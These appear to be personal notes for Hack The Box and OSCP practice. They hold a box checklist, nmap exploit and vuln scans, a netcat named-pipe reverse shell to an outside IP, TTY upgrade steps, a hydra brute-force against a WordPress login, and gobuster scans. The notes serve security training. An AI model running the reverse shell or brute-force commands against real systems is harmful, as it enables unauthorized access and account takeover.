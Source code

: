 # HTB boxes
- [x] Lame
- [x] Beep
- [ ] Bastard
- [ ] Grandpa/Granny
- [x] Mirai
- [x] Solidstate
- [ ] Jeeves
- [ ] Tally (Much harder than anything on OSCP, but you've gotta get used to windows)
- [x] Bashed
- [x] Nibbles
- [ ] Sense
- [x] Valentine
- [ ] Bart (Again, same issue but really get used to windows)
- [ ] Chatterbox // low priv shell
- [ ] Popcorn // low priv shell
- [ ] Haircut
- [ ] Nineveh
- [ ] Shocker
- [ ] Cronos
- [ ] Arctic
- [ ] Optimum
- [ ] Davel

### nmaps

nmap -sV --script=exploit,external,vuln,auth,default -oN nmap-version-exploits.txt 10.11.1.220

nmap -sV --reason --dns-server 10.11.1.220 -oN nmap-versions.txt 10.11.1.220

nmap -sC -sV -oA

use burp proxy backwards
- add new proxy listener. then put localhost to a port for the ip you want to inspect. now when you connect to it with the web browser on port 80 you will intercept everything

### getting an actual terminal

#### 1

`victim$ mknod /tmp/backpipe p`

`victim$ /bin/sh 0</tmp/backpipe | nc 10.10.14.9 445 1>/tmp/backpipe `

#### 2

maybe set `TERM=xterm`

to edit the file `^Z` to background the shell.

now `stty raw -echo` then `fg` the shell then hit enter a few times.

### assorted

- hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -t 32 -I
- searchsploit -x to view
- searchsploit -p copies to clipboard
- gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gouster-2.3-medium.txt
